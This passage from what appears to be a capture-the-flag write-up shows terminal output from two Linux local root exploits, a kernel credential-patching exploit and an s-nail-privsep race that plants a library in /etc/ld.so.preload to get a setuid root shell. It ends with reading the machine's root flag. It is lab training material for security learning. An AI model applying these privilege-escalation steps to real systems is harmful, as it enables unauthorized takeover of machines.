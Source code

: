     [*] UID from cred structure: 1000, matches the current: 1000
    [*] hammering cred structure at ffff88000898bbc0
    [*] credentials patched, launching shell...
    # id
    uid=0(root) gid=0(root) groups=0(root),4(adm),24(cdrom),30(dip),33(www-data),46(plugdev),114(lpadmin),115(sambashare),1000(help)



The third does the compilation in the shell script:



    help@help:/dev/shm$ ./a.sh                                  
    [~] Found privsep: /usr/lib/s-nail/s-nail-privsep                                                                             
    [.] Compiling /var/tmp/.snail.so.c ...                      
    [.] Compiling /var/tmp/.sh.c ...                            
    [.] Compiling /var/tmp/.privget.c ...                               
    [.] Adding /var/tmp/.snail.so to /etc/ld.so.preload ... 
    [=] s-nail-privsep local root by @wapiflapi               
    [.] Started flood in /etc/ld.so.preload                     
    [.] Started race with /usr/lib/s-nail/s-nail-privsep     
    [.] This could take a while...                            
    [.] Race #1 of 1000 ...                               
    This is a helper program of "s-nail" (in /usr/bin).     
      It is capable of gaining more privileges than "s-nail"              
      and will be used to create lock files.                  
      It's sole purpose is outsourcing of high privileges into                                                                    
      fewest lines of code in order to reduce attack surface.                                      
      It cannot be run by itself.                               
    [.] Race #2 of 1000 ...
    ...[snip]...
    [.] Race #296 of 1000 ...
    This is a helper program of "s-nail" (in /usr/bin).
      It is capable of gaining more privileges than "s-nail"
      and will be used to create lock files.
      It's sole purpose is outsourcing of high privileges into
      fewest lines of code in order to reduce attack surface.
      It cannot be run by itself.
    [.] Race #297 of 1000 ...
    [+] got root! /var/tmp/.sh (uid=0 gid=0)
    [.] Cleaning up...
    [+] Success:
    -rwsr-xr-x 1 root root 6336 Jun  3 15:09 /var/tmp/.sh
    [.] Launching root shell: /var/tmp/.sh
    # id
    uid=0(root) gid=0(root) groups=0(root),4(adm),24(cdrom),30(dip),33(www-data),46(plugdev),114(lpadmin),115(sambashare),1000(help)



With any of these root shells, I can get `root.txt`:



    root@help:/root# cat root.txt 
    b7fe6082...







